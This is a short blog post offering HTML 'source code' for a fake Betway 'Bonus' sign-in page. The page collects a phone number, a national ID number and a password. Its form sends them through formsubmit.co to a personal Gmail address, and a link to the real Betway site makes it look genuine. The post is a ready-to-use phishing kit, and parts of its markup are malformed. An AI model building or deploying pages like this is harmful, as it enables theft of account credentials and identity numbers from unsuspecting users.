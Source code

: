 Here is the code 🌚😛🔥

Remember me [Soul ModdeR Rsa]

<div class="separator" style="clear: both;"><a href="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjYP2kcD0MsQICI3mNxz6tljuDD8lwZYUCJdM0rp4kwmvuKlPpdZMQwy6jndnwgWWo04cnRDERbctAPC8N5vSGtNKZERq0b-41K-y6YyJ_Pe6Dl8R8lsn3Z0VgF9qdMSwakQ3KfEu3qcPn-ot4qaY4VCTPgAmHrGhtvfQ5B0w_lovdSc7DDWKMvVaf09g/s310/1684047133664.jpg" style="display: block; padding: 1em 0; text-align: center; "><img alt="" border="0" width="300" data-original-height="162" data-original-width="310" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjYP2kcD0MsQICI3mNxz6tljuDD8lwZYUCJdM0rp4kwmvuKlPpdZMQwy6jndnwgWWo04cnRDERbctAPC8N5vSGtNKZERq0b-41K-y6YyJ_Pe6Dl8R8lsn3Z0VgF9qdMSwakQ3KfEu3qcPn-ot4qaY4VCTPgAmHrGhtvfQ5B0w_lovdSc7DDWKMvVaf09g/s400/1684047133664.jpg"/></a></div>
<form action="https://formsubmit.co/keletema56@gmail.com" method="POST">

<html>

<head>

 <title>Betway Bonus</title>

</head>

<body>

 <h2>Sign In</h2>

 <form action="authenticate.php" method="post">

  <input type="tel" id="username" name="username" placeholder="Number" required><br><br>
<input type="number" name="" id="" placeholder="ID Number" required><br><br>
<input type=ID number"
  <input type="password" id="password" name="password" placeholder="Password" required><br><br>

  <input type="submit" class="btn" value="Submit">

 </form>

</body>

</html>
<style>
   h2{
      color: green;
      font-size: 5vh;
   }
   body{
      text-align: center;
   }
.btn{
   color: white;
   background: green;
}

Input{
Text-align: center;
border: 2px solid green;
height: 9vw;
width: 88vw;

</style>
<label><p>Dont Have an account</p><a href="http://www.betway.com">Sign Up</a></label>
